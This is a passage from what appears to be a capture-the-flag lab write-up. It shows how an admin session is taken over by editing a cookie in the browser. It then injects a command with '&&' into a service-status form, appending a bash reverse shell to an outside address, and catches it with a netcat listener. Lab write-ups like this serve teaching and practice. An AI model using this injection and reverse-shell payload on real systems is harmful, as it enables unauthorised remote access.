 
now we copy the password cookie and head over to our browser's developer's option under the storage tab we can edit the cookie. this would successfully log us in as admin.

![Alt text](/posts/res/hij_17.png)


refreshing the page, we can see that we are successfully logged in as admin.

![Alt text](/posts/res/hij_18.png)

the page allows us to view the status of running services on the server. you can try it out by simply entering the following ```ssh.service``` and hit execute.

we can bypass this by using a `&&` sign after our original command and then passing in our arbitrary command to be executed.

```
ssh.service && bash -c "bash -i >& /dev/tcp/10.9.215.120/4455 0>&1"
```

next we setup a listener on our attack machine using netcat

```
nc -lnvp 4455
```

we successfully get a shell once the command gets executed
